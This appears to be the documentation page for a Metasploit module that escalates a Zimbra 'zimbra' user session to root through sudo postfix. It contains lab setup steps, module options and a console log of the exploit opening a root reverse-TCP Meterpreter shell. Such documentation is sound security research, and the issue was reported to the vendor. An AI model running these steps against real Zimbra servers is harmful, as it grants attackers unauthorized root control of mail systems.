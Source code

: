 ## Vulnerable Application

Currently, as of 2022-10-14, all versions of Zimbra are vulnerable. Presumably
they'll patch it eventually - I reported it to Zimbra.

### Install Zimbra

My steps to install Zimbra (adapted from Christophe):

Create a VM with the following specs:

```
HDD = 128gb
Memory/etc don't matter
```

Install a local DNS server (note: replace `<ip>` with the host's actual ip)
(other note: replace `apt` with `yum` to do this on a Red Hat-derived system):

```
sudo apt update && sudo apt install dnsmasq
sudo hostnamectl set-hostname mail.example.org
echo "<ip> mail.example.org" | sudo tee -a /etc/hosts
echo -e 'listen-address=127.0.0.1\nserver=8.8.8.8\ndomain=example.org\nmx-host=example.org, mail.example.org, 5\nmx-host=mail.example.org, mail.example.org, 5' | sudo tee /etc/dnsmasq.conf
```

Configure the host to use it:

```
sudo systemctl disable systemd-resolved
sudo systemctl stop systemd-resolved
sudo killall dnsmasq # Seems to be required for Red Hat OSes
sudo systemctl restart dnsmasq
echo "nameserver 127.0.0.1" | sudo tee /etc/resolv.conf
```

Download Zimbra from
https://www.zimbra.com/downloads/zimbra-collaboration-open-source/ - you'll
have to sell your soul and opt-in to spam, but they don't validate your email.

```
tar -xvvzf zcs-*.tgz
cd zcs*
sudo ./install.sh

* Lots of <enter>
* DO NOT install `dnscache` module (respond `N` when it ask), I had conflict issues with the local `dnsmasq`
* Yes change the system
* Setup the admin password, probably turn off auto-updates
```

## Verification Steps

Get a Meterpreter session on the Zimbra server as the `zimbra` user - I used
`exploit/linux/http/zimbra_cpio_cve_2022_41352` but just running a Meterpreter
binary is also fine. To become vulnerable to cve-2022-41352, just `rm $(which pax)`
then reboot.

From there,

You can obviously get a shell however you like. :)

Then:

1. Do: `use exploit/linux/local/zimbra_postfix_priv_esc`
1. Do: `set SESSION 1`
1. Do: `set RHOSTS <target>`
1. Do: `set LHOST <listenerip>`
1. Do: `exploit`

## Options

### SUDO_PATH

The path to `sudo` on the host. If we have a proper environment with `$PATH`
set, which we generally do, simply `sudo` is fine.

### ZIMBRA_BASE

The base where Zimbra is installed. Zimbra typically installs to `/opt/zimbra`,
and I'm not even sure if it _can_ install elsewhere, so this default should be
fine.

### WritableDir

A directory where we can write the payload - by default, `/tmp`.

### PayloadFilename

A specific filename to use as the payload, within `WritableDir`. By default,
it's randomized (with a `.` in front)

## Scenarios

### Escalating a `zimbra` session to `root`, after exploiting cve-2022-41352

```
msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                Connection
  --  ----  ----                   -----------                ----------
  1         meterpreter x64/linux  zimbra @ mail.example.org  172.16.166.147:4444 -> 172.16.166.157:47210 (172.16.166.157)

msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > use exploit/linux/local/zimbra_postfix_priv_esc
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/zimbra_postfix_priv_esc) > set SESSION 1
SESSION => 1
msf6 exploit(linux/local/zimbra_postfix_priv_esc) > exploit

[*] Started reverse TCP handler on 172.16.166.147:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sending stage (3045348 bytes) to 172.16.166.157
[*] Executing: sudo -n -l
[+] The target appears to be vulnerable.
[*] Creating exploit directory: /tmp/.GPjXSraCDY
[*] Writing '/tmp/.GPjXSraCDY/.qjSY8' (250 bytes) ...
[*] Attempting to trigger payload: sudo /opt/zimbra/common/sbin/postfix -D -v /tmp/.GPjXSraCDY/.qjSY8
[*] Sending stage (3045348 bytes) to 172.16.166.157
[+] Deleted /tmp/.GPjXSraCDY
[*] Meterpreter session 5 opened (172.16.166.147:4444 -> 172.16.166.157:36488) at 2022-10-14 13:19:25 -0700

meterpreter > getuid
Server username: root
```
